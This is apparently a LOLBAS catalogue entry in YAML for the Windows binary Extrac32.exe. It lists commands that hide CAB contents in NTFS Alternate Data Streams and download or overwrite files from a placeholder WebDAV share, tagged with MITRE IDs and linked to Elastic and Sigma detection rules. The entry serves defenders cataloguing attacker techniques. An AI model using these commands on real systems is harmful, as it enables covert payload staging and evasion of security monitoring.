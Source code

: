 ```yaml
---
Name: Extrac32.exe
Description: Extract to ADS, copy or overwrite a file with Extrac32.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: Copy the source file to the destination file and overwrite it.
    Usecase: Download file from UNC/WEBDav
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: extrac32.exe /C C:\Windows\System32\calc.exe C:\Users\user\Desktop\calc.exe
    Description: Command for copying calc.exe to another folder
    Usecase: Copy file
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\extrac32.exe
  - Path: C:\Windows\SysWOW64\extrac32.exe
Code_Sample:
  - Code:
Detection:
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0f33cbc85bf4b23b8d8308bfcc8b21a9e5431ee7/rules/windows/process_creation/win_pc_lolbas_extrac32.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0f33cbc85bf4b23b8d8308bfcc8b21a9e5431ee7/rules/windows/process_creation/win_pc_lolbas_extrac32_ads.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://twitter.com/egre55/status/985994639202283520
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Hai Vaknin(Lux
    Handle: '@VakninHai'
  - Person: Tamir Yehuda
    Handle: '@tim8288'
---
```

